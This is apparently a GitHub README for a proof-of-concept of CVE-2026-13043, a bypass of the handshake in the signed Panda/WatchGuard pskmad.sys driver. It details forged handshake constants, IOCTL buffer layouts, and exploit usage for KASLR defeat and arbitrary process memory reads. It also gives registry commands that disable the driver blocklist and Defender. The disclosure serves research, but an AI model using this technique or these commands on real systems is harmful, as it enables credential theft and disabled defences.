

# ***🕷️ CVE-2026-13043 - Panda / WatchGuard Kernel Memory Access Driver Vulnerability***


<p align="center">
	
</p>


<p align="center">
	<i>
		Panda / WatchGuard pskmad.sys authentication bypass - privileged IOCTL access, MSR disclosure and arbitrary process memory read through a signed kernel driver.
	</i>
</p>


---
---
---


## ***📑 Table of Contents***

- [Overview](#Overview)
- [Background](#Background)
	- [Bring Your Own Vulnerable Driver](#BYOVD)
	- [The Driver](#TheDriver)
	- [The Vulnerability](#TheVulnerability)
	- [Authentication Mechanism](#Authentication)
	- [IOCTL Interface](#IOCTLInterface)
- [How It Works](#HowItWorks)
	- [Phase 1 - Load the Vulnerable Driver](#Phase1)
	- [Phase 2 - Open Device Handle (Handshake Bypass)](#Phase2)
	- [Phase 3 - MSR Read (KASLR Defeat)](#Phase3)
	- [Phase 4 - Arbitrary Process Memory Read](#Phase4)
- [Impact](#Impact)
- [Affected Versions](#AffectedVersions)
- [Build](#Build)
- [Usage](#Usage)
- [Lab Setup](#LabSetup)
- [References](#References)


---
---
---


<div id='Overview'/>

## ***Overview***

This repository provides an educational breakdown of [CVE-2026-13043](https://psirt.watchguard.com/CVE-2026-13043), a critical missing authentication vulnerability in the Panda Kernel Memory Access Driver (`pskmad.sys`) shipped with WatchGuard and Panda endpoint security products.

The driver exposes a device interface (`\\.\PSMEMDriver`) with privileged IOCTL handlers designed to support the antivirus engine's memory inspection operations. In theory, only authorized Panda components should be able to reach those handlers - the driver gates access behind a challenge/response handshake. In practice, every piece of that handshake is reproducible: the named objects are caller-created, the challenge contains only public constants, and the expected response is a single hard-coded value. Any local administrator can forge the exchange, obtain a device handle, and talk directly to the privileged IOCTLs.

The two programs in this repository demonstrate the technique step by step, following a **BYOVD (Bring Your Own Vulnerable Driver)** approach:

1. **`01_HandshakeBypass`** - Loads the signed driver, forges the `PsOpenPacket000` authentication handshake, and verifies the IOCTL dispatch path with a bounded self-read.
2. **`02_DriverCapabilityExplorer`** - Reuses the handshake bypass and then exercises the capabilities that the driver exposes: reading Model-Specific Registers (defeating KASLR) and reading memory from any process through the kernel driver.

The key insight is that all of this works on **fully patched Windows 11 25H2 with VBS, HVCI, and kernel Control-flow Enforcement Technology (kCET) enabled**. Unlike `g_CiOptions` patching techniques, nothing here modifies kernel memory - the reads are performed by the legitimate signed driver itself.


---
---
---


<div id='Background'/>

## ***Background***

---

<div id='BYOVD'/>

### ***Bring Your Own Vulnerable Driver***

BYOVD is a well-known technique in offensive security: an attacker brings a legitimate, digitally signed driver that happens to contain a vulnerability. Because the driver carries a valid signature - in this case, from the Microsoft Windows Hardware Compatibility Publisher - Windows loads it into the kernel without complaint. Once loaded, the vulnerability gives the attacker a bridge from user mode into kernel mode, bypassing the usual security boundaries.

This technique is not theoretical. It is routinely used by advanced threat actors and red team operators. Microsoft maintains a [driver block list](https://learn.microsoft.com/en-us/windows/security/application-security/application-control/app-control-for-business/design/microsoft-recommended-driver-block-rules) to block known vulnerable drivers, and the community-driven [LOLDrivers](https://www.loldrivers.io/) project catalogs drivers that have been observed in real-world attacks.

---

<div id='TheDriver'/>

### ***The Driver***

`pskmad.sys` is a kernel-mode driver shipped by Panda Security (now part of WatchGuard) as part of their endpoint security products. Its purpose is to give the antivirus engine memory inspection capabilities from kernel mode.

| Property | Value |
|----------|-------|
| **File** | pskmad.sys |
| **Internal Name** | PSKMAD_64 |
| **Vendor** | Panda Security, S.L.U. / WatchGuard |
| **Product** | Panda Technologies / WatchGuard Endpoint Security |
| **CVE** | CVE-2026-13043 |
| **CVSS** | 9.3 Critical (CVSS v4.0) |
| **CWE** | CWE-306 (Missing Authentication for Critical Function), CWE-798 (Use of Hard-coded Credentials) |
| **Architecture** | AMD64 |
| **File Version** | 1.1.0.23 |
| **SHA-256** | 9bf3b737afa4d4f5e7b00ec749d4b75656ad66d9a2b402e1e81934e95ba7df5b |
| **Device** | \\.\PSMEMDriver |
| **Kernel Device** | \Device\PSMEMDriver |
| **Signature** | Microsoft Windows Hardware Compatibility Publisher |
| **Discovery** | Juan Sacco (Exploit Pack) |
| **LOLDrivers** | [b9216fc9-860e-43ae-8db2-e970c7e76b46](https://www.loldrivers.io/drivers/b9216fc9-860e-43ae-8db2-e970c7e76b46/) |

---

<div id='TheVulnerability'/>

### ***The Vulnerability***

This is not a memory corruption bug. The vulnerability sits in the design of the authentication boundary itself.

The driver creates a device object (`\Device\PSMEMDriver`) with the symbolic link `\Global??\PSMEMDriver` and protects access to it through a handshake mechanism. The idea is that only trusted Panda/WatchGuard components should be able to complete the handshake and reach the IOCTL handlers behind it. The problem is that the handshake relies entirely on things that any process can reproduce: caller-created named objects, publicly visible constants, and a hard-coded success value. The driver never independently verifies that the process on the other end is actually a Panda component.

Once past the handshake, the caller has access to every IOCTL the driver implements. Looking at the import table gives a sense of what that means:

- **Process lookup**: `PsLookupProcessByProcessId`
- **Process attachment**: `KeStackAttachProcess` / `KeUnstackDetachProcess`
- **MDL handling**: memory descriptor list operations for safe kernel-user transfers
- **Section mapping**: shared memory section management
- **Physical memory mapping**: `MmMapIoSpace`
- **System-thread execution**: kernel thread creation capabilities

All of these are reachable through the IOCTL interface once the handshake is bypassed.

```
┌──────────────────────┐
│   User-Mode Client   │
│                      │
│  Creates named:      │
│   - Shared Section   │
│   - Signal Event     │
│   - Reply Event      │
└──────────┬───────────┘
		│
		│ PsOpenPacket000
		▼
┌──────────────────────┐
│     pskmad.sys       │
│                      │
│ Authentication Gate  │
│        ↓             │
│ Privileged IOCTLs    │
└──────────┬───────────┘
		│
		▼
	PSMEMDriver
```

This is classified as conventional **BYOVD** rather than BYOTC (Bring Your Own Trusted Component): although Panda attempted trusted-client verification, the verifier can be impersonated directly, so an attacker does not need to inject into or otherwise occupy a legitimate Panda process.

---

<div id='Authentication'/>

### ***Authentication Mechanism***

When a process opens the `PSMEMDriver` device, it cannot simply call `CreateFileW`. The driver requires a specially crafted `NtCreateFile` call carrying an Extended Attribute (EA) buffer with the packet name `PsOpenPacket000`. That packet contains the names of three kernel objects that the caller must create beforehand:

| Named Object | Type | Purpose |
|---|---|---|
| `Global\DOGPskMadSec_*` | Shared memory section | Challenge/response exchange |
| `Global\DOGPskMadSignal_*` | Event | Driver signals client (challenge ready) |
| `Global\DOGPskMadReply_*` | Event | Client signals driver (response ready) |

Here is how the legitimate flow is supposed to work:

1. The Panda user-mode component (`PSKMADLL.dll`) creates the shared section, signal event, and reply event
2. It sends the EA packet to `NtCreateFile` with the names of these objects
3. The driver writes a challenge into the shared section - containing public constants (`0xfacbfacb`, `0xfafaf0f0`) and the caller's PID
4. `PSKMADLL.dll` is supposed to verify that the caller is running as LocalSystem with a valid Panda signature
5. It writes the hard-coded success constant (`0xfafaffff`) into the shared section
6. The driver reads it back, accepts it as proof, and grants the device handle

The fundamental flaw is that the driver **does not authenticate the verifier**. It does not check who created the named objects, does not verify any signature, and does not validate the caller's identity. It simply checks whether the magic value `0xfafaffff` appears in the shared section. An unsigned, standalone process can reproduce the entire exchange without ever loading `PSKMADLL.dll`.

```
+------------------+       NtCreateFile + EA        +-------------------+
|  Attacker Process| -----------------------------> |  pskmad.sys       |
|                  |    PsOpenPacket000 packet      |                   |
|  Creates:        |                                |  Writes challenge |
|   SharedSection  | <------ Signal event --------- |  to shared section|
|   SignalEvent    |                                |                   |
|   ReplyEvent     |  Writes 0xfafaffff (hardcoded) |                   |
|                  | -------> Reply event --------> |  Grants handle!   |
+------------------+                                +-------------------+
```

---

<div id='IOCTLInterface'/>

### ***IOCTL Interface***

Once past the handshake, the authenticated caller can reach four privileged IOCTL handlers. All of them use `METHOD_BUFFERED` and `FILE_ANY_ACCESS`, and every request buffer must start with a magic constant (`0x542df91b`) that the driver validates before processing:

| IOCTL | Code | Primitive |
|-------|------|-----------|
| `IOCTL_TRANSFER` | `0xB3702C08` | Read memory from any process |
| `IOCTL_ENTRY_MAP` | `0xB3702C0C` | Map target process virtual address space |
| `IOCTL_ENTRY_UNMAP` | `0xB3702C10` | Release mapped entries |
| `IOCTL_MSR` | `0xB3702C3C` | Read Model-Specific Registers |

```
IOCTL Code      Name              Decoded                                    Primitive
──────────      ──────────────    ────────────────────────────────────────   ─────────
0xB3702C08      IOCTL_TRANSFER    DevType=0xB370 Func=0xB02 METHOD_BUFFERED Process memory transfer (read)
0xB3702C0C      IOCTL_ENTRY_MAP   DevType=0xB370 Func=0xB03 METHOD_BUFFERED Map target process virtual address space
0xB3702C10      IOCTL_ENTRY_UNMAP DevType=0xB370 Func=0xB04 METHOD_BUFFERED Unmap target process entries
0xB3702C3C      IOCTL_MSR         DevType=0xB370 Func=0xB0F METHOD_BUFFERED Read Model-Specific Registers
```

The current implementation in this repository demonstrates `IOCTL_TRANSFER` and `IOCTL_MSR`. The `IOCTL_ENTRY_MAP` and `IOCTL_ENTRY_UNMAP` handlers remain only documented.


---
---
---


<div id='HowItWorks'/>

## ***How It Works***

The repository is split into two standalone programs. The first one (`01_HandshakeBypass`) deals with getting past the authentication gate. The second one (`02_DriverCapabilityExplorer`) builds on that and demonstrates what an attacker can actually do once they have a device handle.

```
┌─────────────────────────────────────────────────────────────┐
│  01_HandshakeBypass                                         │
│                                                             │
│  Phase 1: Load pskmad.sys via SCM                           │
│  Phase 2: Forge PsOpenPacket000 → obtain device handle      │
│  Phase 3: Bounded self-read → verify IOCTL dispatch path    │
└─────────────────────────────────────────────────────────────┘

┌─────────────────────────────────────────────────────────────┐
│  02_DriverCapabilityExplorer                                │
│                                                             │
│  Phase 1: Load driver + forge handshake (reuses 01 code)    │
│  Phase 2: Self-read verification                            │
│  Phase 3: Execute selected capability:                      │
│           ├── read-msr    → IOCTL_MSR (0xB3702C3C)          │
│           └── read-memory → IOCTL_TRANSFER (0xB3702C08)    │
│  Phase 4: Cleanup (unload driver, delete service)           │
└─────────────────────────────────────────────────────────────┘
```

---

<div id='Phase1'/>

### ***Phase 1 - Load the Vulnerable Driver***

The driver is loaded through the Service Control Manager (SCM) API. Because it is signed by the Microsoft Windows Hardware Compatibility Publisher, it passes Driver Signature Enforcement without issues:

```
OpenSCManager → CreateService (SERVICE_KERNEL_DRIVER) → StartService
```

Once loaded, the driver registers the device object `\Device\PSMEMDriver` with the symbolic link `\\.\PSMEMDriver`.

If Panda/WatchGuard endpoint security is already installed on the target system, the driver may already be loaded and the service creation step is skipped.

---

<div id='Phase2'/>

### ***Phase 2 - Open Device Handle (Handshake Bypass)***

A plain `CreateFileW("\\.\PSMEMDriver", ...)` will fail - the driver's `IRP_MJ_CREATE` handler rejects calls that do not carry the right EA packet. The bypass works as follows:

1. **Create named kernel objects** - a shared memory section, a signal event, and a reply event, all in the `Global\` namespace
2. **Build the EA packet** - populate a `FILE_FULL_EA_INFORMATION` structure with the name `PsOpenPacket000` and the EA value containing two magic constants and the Unicode names of the three objects
3. **Spawn a responder thread** - this thread will wait for the driver's challenge
4. **Call `NtCreateFile`** - this sends the EA packet to the driver. The driver reads the object names, opens them, and writes the challenge into the shared section
5. **Respond to the challenge** - the responder thread maps the section, sees the challenge (which contains `0xfacbfacb`, `0xfafaf0f0`, and the caller PID), writes back the hard-coded success value `0xfafaffff`, and signals the reply event
6. **Receive the device handle** - the driver accepts the response and returns a valid handle through `NtCreateFile`

From this point on, all communication with the driver uses standard `DeviceIoControl` calls.

---

<div id='Phase3'/>

### ***Phase 3 - MSR Read (KASLR Defeat)***

The `IOCTL_MSR` handler (`0xB3702C3C`) lets the caller read any Model-Specific Register. User-mode code normally cannot execute `RDMSR` - it is a ring 0 instruction. But the driver does it on behalf of the caller and returns the result.

The most interesting MSR for offensive purposes is `IA32_LSTAR` (`0xC0000082`). This register holds the address of the kernel's SYSCALL entry point (`nt!KiSystemCall64`). Since this address sits at a known offset from the kernel base, reading it reveals the kernel base address - **defeating KASLR** without a separate information disclosure vulnerability.

The MSR request buffer layout (verified via IDA reverse engineering of the driver's dispatch handler):

```
Offset    Size    Field              Purpose
──────    ────    ─────              ───────
0x00      4       Magic              Validation constant (0x542df91b)
0x04      4       Status             Controls return size (Status + 8 = bytes returned)
0x08      4       ProcessIdMode      1 = PID mode, 0 = EPROCESS pointer mode
0x0C      8       ProcessId          Caller PID (avoids attaching to another process context)
0x14      4       ProcessorIndex     Target CPU index for KeSetSystemAffinityThread
0x18      4       MsrIndex           MSR register to read (e.g., 0xC0000082)
0x1C      8       MsrValue           Output: 64-bit value from RDMSR (EDX:EAX)
```

The driver internally calls `KeSetSystemAffinityThread(1 << ProcessorIndex)` to pin execution to the selected CPU, executes `__readmsr(MsrIndex)`, stores the result at offset `0x1C`, and restores the original CPU affinity.

---

<div id='Phase4'/>

### ***Phase 4 - Arbitrary Process Memory Read***

The `IOCTL_TRANSFER` handler (`0xB3702C08`) allows reading memory from any process. The caller specifies a target PID, a virtual address, and a byte count. The driver internally uses `PsLookupProcessByProcessId` to obtain the target's `EPROCESS`, attaches to its address space with `KeStackAttachProcess`, and copies the requested bytes back to the caller's buffer.

The request buffer layout (confirmed from xusheng6's public PoC, LOLDrivers Issue #434):

```
Offset    Size    Field            Purpose
──────    ────    ─────            ───────
0x00      4       Magic            Validation constant (0x542df91b)
0x08      4       ProcessIdMode    1 = following value is a PID
0x0C      8       ProcessId        Target process ID
0x14      8       BaseAddress      Virtual address to read from
0x20      4       Length           Number of bytes to read
0x28      4       BytesRead        Output: actual bytes copied
0x3C      4       OutputOffset     Offset in response where data begins
0x3D+     var     Data             Output: the read bytes
```

Because the read is performed entirely by the signed kernel driver in kernel mode, it bypasses user-mode process protection mechanisms. The resulting primitive:

```
read_process_va(handle, pid, virtual_address, size) → bytes
```

This is enough to read the PE header, code sections, heap data, or any other committed region of any running process.


---
---
---


<div id='Impact'/>

## ***Impact***

Once past the handshake, an attacker with local administrator access can use this signed kernel driver to:

- **Defeat KASLR** by reading `IA32_LSTAR` and deriving the kernel base address
- **Read memory from any process** - credentials, tokens, keys, application data, or anything else resident in a target process's address space
- **Access privileged CPU state** through arbitrary MSR reads

The critical detail is that the driver is legitimately signed. The reads are performed by the driver itself in kernel mode - no kernel memory is patched, no code integrity is violated, and no unsigned code runs in the kernel. This is why the technique **works on fully patched Windows 11 25H2 with VBS, HVCI, and kernel Control-flow Enforcement Technology (kCET) enabled**.


---
---
---


<div id='AffectedVersions'/>

## ***Affected Versions***

According to the [WatchGuard security advisory](https://psirt.watchguard.com/CVE-2026-13043):

| Product | Affected | Fixed |
|---------|----------|-------|
| WatchGuard Endpoint Security for Windows | `< 8.00.26.0012` | `>= 8.00.26.0012` |

The vulnerable driver sample analyzed in this repository:

| Property | Value |
|----------|-------|
| **File version** | 1.1.0.23 |
| **SHA-256** | `9bf3b737afa4d4f5e7b00ec749d4b75656ad66d9a2b402e1e81934e95ba7df5b` |

The [LOLDrivers entry](https://www.loldrivers.io/drivers/b9216fc9-860e-43ae-8db2-e970c7e76b46/) validates this specific sample and does not establish affected versions beyond this exact binary.

Previous `pskmad.sys` versions (through 1.1.0.21) were associated with [CVE-2023-6330, CVE-2023-6331, and CVE-2023-6332](https://www.sophos.com/en-us/blog/multiple-vulnerabilities-discovered-in-widely-used-security-driver). This repository concerns the newer 1.1.0.23 sample and the bypass of its newer client-authentication boundary.


---
---
---


<div id='Build'/>

## ***Build***

Both programs are compiled with the Microsoft Visual C++ compiler (`cl.exe`) from a **Developer Command Prompt for Visual Studio**.

### ***01_HandshakeBypass***

```
cd 01_HandshakeBypass
cl.exe /W4 /Fe:HandshakeBypass.exe HandshakeBypass.c KernelDriverManagement.c /link advapi32.lib
```

### ***02_DriverCapabilityExplorer***

```
cd 02_DriverCapabilityExplorer
cl.exe /W4 /Fe:DriverCapabilityExplorer.exe Main.c HandshakeBypass.c KernelDriverManagement.c DriverCapabilities.c /link advapi32.lib
```

> **Note**: Both programs link against `advapi32.lib` for Service Control Manager (SCM) API access. No additional dependencies are required.


---
---
---


<div id='Usage'/>

## ***Usage***

Both programs require an **elevated command prompt** (Run as Administrator). The driver path must point to a valid copy of the vulnerable `pskmad.sys`.

---

### ***01_HandshakeBypass***

This is the first step: prove that the authentication handshake can be forged by an unsigned standalone process.

```
HandshakeBypass.exe <driver_path>
```

```
HandshakeBypass.exe C:\Drivers\pskmad.sys
```

```
[*] --- Phase 1: Loading driver ---
[+] Service 'pskmad' created
[+] Service 'pskmad' started (driver loaded into kernel)

[*] --- Phase 2: Forging authentication handshake ---
[+] Named kernel objects created
[+] Replied to the challenge without loading PSKMADLL.dll
[+] Device opened from this unsigned standalone client

[*] --- Phase 3: Self-read verification ---
[+] CONFIRMED: IOCTL 0xB3702C08 copied the fixed marker from this process through pskmad.sys
[+] IOCTL dispatch path verified
```

At this point, the handshake is bypassed and the IOCTL dispatch path is confirmed working. The program cleans up after itself (unloads the driver, deletes the service).

---

### ***02_DriverCapabilityExplorer***

This is where it gets interesting. The program reuses the handshake bypass code and then demonstrates what the driver actually lets you do.

```
DriverCapabilityExplorer.exe <driver_path> <command> [arguments]
```

| Command | Arguments | Description |
|---------|-----------|-------------|
| `read-msr` | `<msr_index>` | Read a Model-Specific Register via `IOCTL_MSR` (`0xB3702C3C`) |
| `read-memory` | `<pid> <address> <size>` | Read process memory via `IOCTL_TRANSFER` (`0xB3702C08`) |

---

#### ***Step 1 - Defeat KASLR***

The first thing an attacker would do after obtaining the device handle is defeat KASLR. Reading `IA32_LSTAR` (`0xC0000082`) gives the address of `nt!KiSystemCall64`, from which the kernel base can be calculated:

```
DriverCapabilityExplorer.exe C:\Drivers\pskmad.sys read-msr C0000082
```

```
[+] MSR 0xc0000082 = 0xfffff80578bcb200
[*]   -> This is the SYSCALL handler address (nt!KiSystemCall64)
[*]   -> The kernel base can be derived by subtracting the known offset
[*]   -> This effectively defeats KASLR
```

That single value is enough to locate the kernel in memory. KASLR is supposed to prevent exactly this - but the driver hands it over through a legitimate signed IOCTL.

Additional MSRs reveal more about the system's security configuration:

```
DriverCapabilityExplorer.exe C:\Drivers\pskmad.sys read-msr C0000080
```

```
[+] MSR 0xc0000080 = 0x0000000000000d01
[*]   -> Bit  0 (SCE):  SET (SYSCALL/SYSRET enabled)
[*]   -> Bit  8 (LME):  SET (Long Mode enabled)
[*]   -> Bit 10 (LMA):  SET (Long Mode active)
[*]   -> Bit 11 (NXE):  SET (No-Execute enabled)
```

```
DriverCapabilityExplorer.exe C:\Drivers\pskmad.sys read-msr C0000101
```

```
[+] MSR 0xc0000101 = 0xfffff80505099000
[*]   -> This is the GS segment base, pointing to the KPCR
[*]   -> Reveals per-processor kernel data structure address
```

| MSR Index | Name | What it reveals |
|-----------|------|-----------------|
| `C0000082` | `IA32_LSTAR` | SYSCALL handler - `nt!KiSystemCall64` (defeats KASLR) |
| `C0000080` | `IA32_EFER` | CPU feature flags: NXE, Long Mode, SYSCALL enabled |
| `C0000081` | `IA32_STAR` | SYSCALL CS/SS selectors |
| `C0000084` | `IA32_FMASK` | SYSCALL RFLAGS mask |
| `C0000101` | `IA32_GS_BASE` | GS segment base - KPCR (per-processor kernel data) |
| `C0000102` | `IA32_KERNEL_GS_BASE` | Kernel GS base (swapped on SWAPGS during SYSCALL) |

---

#### ***Step 2 - Read Memory from Any Process***

With KASLR defeated and the kernel layout known, the next step is reading memory from a target process. The driver performs the read in kernel mode through `MmCopyVirtualMemory`, bypassing any user-mode protections.

First, find the target process and its base address:

```powershell
# Find the PID of the target process
tasklist | findstr notepad

# Get its base address from PowerShell
(Get-Process -Id <PID>).MainModule.BaseAddress.ToString("X")
```

Then read through the kernel driver:

```
DriverCapabilityExplorer.exe <driver_path> read-memory <pid> <address> <size>
```

For example, reading the PE header of Notepad to confirm the MZ signature:

```
DriverCapabilityExplorer.exe C:\Drivers\pskmad.sys read-memory 7024 7FF7C1CD0000 256
```

```
[+] Read 256 bytes from process 7024 via kernel driver

00007ff7c1cd0000  4d 5a 90 00 03 00 00 00  04 00 00 00 ff ff 00 00  |MZ..............|
00007ff7c1cd0010  b8 00 00 00 00 00 00 00  40 00 00 00 00 00 00 00  |........@.......|
...
```

The `MZ` signature confirms the read landed on the PE header of the remote process. This same primitive can read any committed memory region - code, data, heap, stack - from any running process on the system.

> **Note**: The address and size are specified in hexadecimal without the `0x` prefix. The maximum read size per request is 4096 bytes (one page), limited by the `METHOD_BUFFERED` system buffer.


---
---
---


<div id='LabSetup'/>

## ***Lab Setup***

### 1. Obtain the Vulnerable Driver

The `pskmad.sys` driver (version 1.1.0.23) can be obtained from:

- A Panda Free Antivirus installation ([pandasecurity.com](https://www.pandasecurity.com/en/homeusers/free-antivirus/))
- The LOLDrivers sample repository ([download](https://github.com/magicsword-io/LOLDrivers/raw/main/drivers/43fe428d3e109c81bb1737afd0f9bfa6.bin))

Verify the SHA-256 hash:

```
9bf3b737afa4d4f5e7b00ec749d4b75656ad66d9a2b402e1e81934e95ba7df5b
```

### 2. Disable the Driver Block List (if blocked)

If the driver hash has been added to Microsoft's Vulnerable Driver Blocklist:

```
reg add "HKLM\SYSTEM\CurrentControlSet\Control\CI\Config" /v VulnerableDriverBlocklistEnable /t REG_DWORD /d 0 /f
```

Reboot after applying.

### 3. Disable Windows Defender / Tamper Protection

Windows Defender may flag the vulnerable driver and the compiled binaries. Disable both Real-Time Protection and Tamper Protection from Windows Security settings, or use Group Policy:

```
reg add "HKLM\SOFTWARE\Policies\Microsoft\Windows Defender" /v DisableAntiSpyware /t REG_DWORD /d 1 /f
```

### 4. VBS/HVCI Note

Unlike `g_CiOptions` patching techniques (CVE-2019-16098, CVE-2021-21551), **this technique works with VBS/HVCI enabled**. The memory reads are performed by the legitimate signed driver itself - no kernel memory modification is required. Disabling VBS/HVCI is **not** necessary.

### 5. Administrator Privileges

Both programs require administrator privileges to:

- Create and start the kernel driver service via SCM
- Access the device object `\\.\PSMEMDriver`
- Send IOCTL requests through `DeviceIoControl`


---
---
---


<div id='References'/>

## ***References***

- [LOLDrivers - pskmad.sys](https://www.loldrivers.io/drivers/b9216fc9-860e-43ae-8db2-e970c7e76b46/)
- [WatchGuard PSIRT - CVE-2026-13043 Advisory](https://psirt.watchguard.com/CVE-2026-13043)
- [LOLDrivers GitHub Issue #434 - pskmad.sys Submission](https://github.com/magicsword-io/LOLDrivers/issues/434)
- [Exploit Pack - CVE-2026-13043: Panda Arbitrary Kernel Process Memory Read](https://www.exploitpack.com/blogs/research/cve-2026-13043-panda-arbitrary-kernel-process-memory-read)
- [CyberPress - Critical WatchGuard Endpoint Flaw Enables Arbitrary Kernel and Process Memory Reads](https://cyberpress.org/critical-watchguard-endpoint-flaw/)
- [Sophos X-Ops - Multiple Vulnerabilities in Panda Security Driver (CVE-2023-6330, CVE-2023-6331, CVE-2023-6332)](https://www.sophos.com/en-us/blog/multiple-vulnerabilities-discovered-in-widely-used-security-driver)
